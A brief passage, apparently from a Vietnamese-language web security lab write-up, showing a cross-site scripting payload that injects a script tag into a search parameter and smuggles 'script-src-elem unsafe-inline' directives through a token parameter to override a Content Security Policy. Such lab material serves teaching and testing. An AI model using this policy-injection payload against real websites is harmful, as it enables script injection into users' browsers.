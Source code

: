 
Gửi payload

```
?search=<script>alert(1)</script>&token=; script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

`script-src-elem 'unsafe-inline'` sẽ ghi đè lên `script-src self` policy → Cho phép thực hiện script

![Untitled](writeup_media/Untitled%2080.png)